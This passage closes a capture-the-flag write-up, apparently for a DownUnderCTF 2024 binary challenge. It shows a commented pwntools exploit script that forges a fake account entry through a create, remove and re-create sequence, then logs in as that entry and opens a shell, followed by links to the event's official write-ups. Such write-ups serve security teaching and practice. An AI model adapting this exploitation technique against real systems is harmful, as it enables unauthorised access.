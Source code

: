     print(f"fake entry address {hex(fake_root_entry)}")
    print(f"{fake_account_id=}")
    print(f"fake account username {binascii.hexlify(fake_account_username)}")
    print(f"fake account password {binascii.hexlify(fake_account_password)}")
    
    io.recvuntil(b"> ")                 # wait till target application initialised
    io.sendline(b'1')                   # enter choice 1 - create account
    io.recvuntil(b":")                  # wait username prompt
    io.sendline(b"one")                 # enter username
    io.recvuntil(b":")                  # wait password prompt
    io.sendline(pack(fake_root_entry))  # send address as fake root entry as password (converting into little endian)
    io.recvuntil(b"> ")                 # wait prompt
    io.sendline(b'2')                   # enter choice 2 - sign in
    io.recvuntil(b":")                  # wait username prompt
    io.sendline(b"one")                 # enter username
    io.recvuntil(b":")                  # wait password prompt
    io.sendline(pack(fake_root_entry))  # enter password
    io.recvuntil(b"> ")                 # wait prompt
    io.sendline(b'3')                   # enter choice 3 - remove account
    io.recvuntil(b"> ")                 # wait prompt
    io.sendline(b'1')                   # enter choice 1 - create account
    io.recvuntil(b":")                  # wait username prompt
    io.sendline(b"two")                 # enter username
    io.recvuntil(b":")                  # wait password prompt
    io.sendline(b"two")                 # enter password
    io.recvuntil(b"> ")                 # wait prompt
    io.sendline(b'2')                   # enter choice 2 - signup
    io.recvuntil(b":")                  # wait username prompt
    # enter username and password of the fake entity that has id 0
    # note that both fields are concatenated.
    # if we use sendline(fake_account_username) then sendline(fake_account_password)
    # then because sendline appends '\n' it would be treated as part of password and sign in fails
    io.sendline(fake_account_username + fake_account_password)
    io.recvuntil(b"> ")                 # failed prompt
    io.sendline(b'4')                   # enter choice 4 - Get shell
    
    # we should have remove shell now - switch to interactive mode
    io.interactive()
    io.close()
    ```

## Epilogue

* Official website: [https://downunderctf.com/](https://downunderctf.com/)
* Official writeups: https://github.com/DownUnderCTF/Challenges_2024_Public

*[PIE]: Position Independent Executable
*[LIFO]: Last In First Out
